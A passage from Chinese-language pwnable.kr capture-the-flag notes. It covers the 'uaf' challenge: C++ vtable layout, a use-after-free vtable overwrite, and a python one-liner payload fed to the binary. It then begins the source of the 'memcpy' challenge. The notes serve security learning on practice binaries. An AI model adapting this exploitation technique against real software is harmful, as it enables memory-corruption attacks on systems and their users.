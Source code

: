   ```
                                  cout << "your data is allocated" << endl;
                                  break;
                          case 3:
                                  delete m;
                                  delete w;
                                  break;
                          default:
                                  break;
                  }
          }

          return 0;
  }
  ```
* fastbin attack + uaf
* c++多态：虚函数使用的其核心目的是通过基类访问派生类定义的函数。子类可以继承或者重写父类的虚函数。
  ![Alt text](./pwnable.kr题解/virtualfunc.png)
* c++类的内存分配如上图。成员函数存储在代码段，成员函数使用this指针访问成员变量。thiscall中，ecx寄存器为this指针，存储着对象的首地址。
* 在C++中，如果类中有虚函数，那么它就会有一个指向虚函数表的指针__vfptr，在类对象最开始的内存数据中，之后是类中的成员变量的内存数据。虚函数表中，先存放父类的虚函数，再存放子类的虚函数。如果子类重载了父类的某些虚函数，那么新的虚函数将虚函数表中父类的这些虚函数覆盖。
* 本题中，先delete对象，再new申请字符串，就会申请到对象所在的内存，这时对象的指针就变成了悬挂指针。对这些内存进行更改，可以修改对象的虚表，然后调用对象的虚函数时就会执行指定函数。
* ```shell
  python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00'" > /tmp/exp.txt
  ./uaf 24 /tmp/exp.txt  # 要申请到m的内存，free m和w后需要再调用两次new char。
  # 释放m和w后第一次调用new char申请到的是w的内存，然后直接执行m->introduce为什么报段错误？可能是执行时判断m指针指向的内存为未分配已释放内存？
  ```

### 16 memcpy
* ```c
  // compiled with : gcc -o memcpy memcpy.c -m32 -lm
  #include <stdio.h>
  #include <string.h>
  #include <stdlib.h>
  #include <signal.h>
  #include <unistd.h>
  #include <sys/mman.h>
  #include <math.h>

  unsigned long long rdtsc(){
          asm("rdtsc");
  }

  char* slow_memcpy(char* dest, const char* src, size_t len){
  	int i;
  	for (i=0; i<len; i++) {
  		dest[i] = src[i];
  	}
  	return dest;
  }

  char* fast_memcpy(char* dest, const char* src, size_t len){
  	size_t i;
  	// 64-byte block fast copy
  	if(len >= 64){
  		i = len / 64;
  		len &= (64-1);
  		while(i-- > 0){
  			__asm__ __volatile__ (
  			"movdqa (%0), %%xmm0\n"
  			"movdqa 16(%0), %%xmm1\n"
  ```